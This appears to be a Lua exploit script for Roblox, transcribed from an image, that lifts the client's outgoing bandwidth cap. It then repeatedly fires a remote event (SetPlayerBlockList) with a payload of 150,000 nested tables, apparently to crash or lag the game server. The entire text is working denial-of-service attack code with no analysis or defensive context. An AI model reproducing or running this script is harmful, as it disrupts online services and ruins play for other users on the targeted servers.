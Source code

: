 _G.Close = true
local sec = 0.6
while wait(sec) do
if _G.Close == false then return end

game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 699999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end

local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}

table.insert(spammedtable, {})
z = spammedtable[1]

for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end

local calculatemax = getmaxvalue(tableincrease)

for i = 1, 150000 do
     table.insert(maintable, spammedtable)
end

game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end

bomb(1, 1)
end
